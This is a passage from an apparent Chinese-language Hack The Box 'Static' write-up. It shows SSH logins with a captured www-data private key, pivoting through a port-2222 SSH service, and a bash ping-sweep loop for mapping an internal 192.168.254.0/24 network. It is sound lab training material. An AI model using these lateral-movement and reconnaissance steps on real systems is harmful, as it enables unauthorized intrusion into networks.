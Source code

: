 我尝试使用 SSH 密钥连接到主静态箱:

```
┌──(root💀kali)-[~/htb/static]
└─# ssh -i id_rsa_www-data www-data@10.10.10.246
www-data@10.10.10.246's password: 
Permission denied, please try again.
www-data@10.10.10.246's password: 
Permission denied, please try again.
www-data@10.10.10.246's password: 
www-data@10.10.10.246: Permission denied (publickey,password).
```

# 用户 SSH 访问

这不起作用，但有趣的是，我们可以使用 www-data 的 SSH 密钥连接到 172 IP 的 web 服务器:

```
┌──(root💀kali)-[~/htb/static]
└─# ssh -i id_rsa www-data@172.20.0.10 
Last login: Wed Nov  3 21:38:58 2021 from 10.10.15.41
www-data@web:~$
```

我们还可以使用它来连接到主静态箱，但是在我们从初始扫描中看到的端口 2222 上也运行 SSH:

```
┌──(root💀kali)-[~/htb/static]
└─# ssh -i id_rsa www-data@10.10.10.246 -p 2222
Last login: Mon Jun 14 08:00:30 2021 from 10.10.14.4
www-data@web:~$
```

为了简单起见，我退出了 web VPN，继续使用 SSH 直接连接到机器。在我查看网络连接之前，没有什么明显的变化:

```
www-data@web:/$ ifconfig eth1
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.254.2  netmask 255.255.255.0  broadcast 192.168.254.255
        ether 02:42:c0:a8:fe:02  txqueuelen 0  (Ethernet)
        RX packets 392  bytes 361065 (361.0 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 498  bytes 36481 (36.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

我们有第二个到不同网络的连接，机器上没有 nmap。我做了一个简单的循环来扫描网络:

```
www-data@web:/$ for i in {1..254} ;do (ping -c 1 192.168.254.$i | grep "bytes from" &) ;done64 bytes from 192.168.254.1: icmp_seq=1 ttl=64 time=0.097 ms
64 bytes from 192.168.254.2: icmp_seq=1 ttl=64 time=0.048 ms
64 bytes from 192.168.254.3: icmp_seq=1 ttl=64 time=0.088 ms
```

我们得到了两个 IP 以及我们自己的回复。让我们使用[这个](https://coderwall.com/p/udnrjq/port-scanning-with-bash-without-sudo-nmap-or-nc)有用的 bashfu 扫描它们的开放端口:

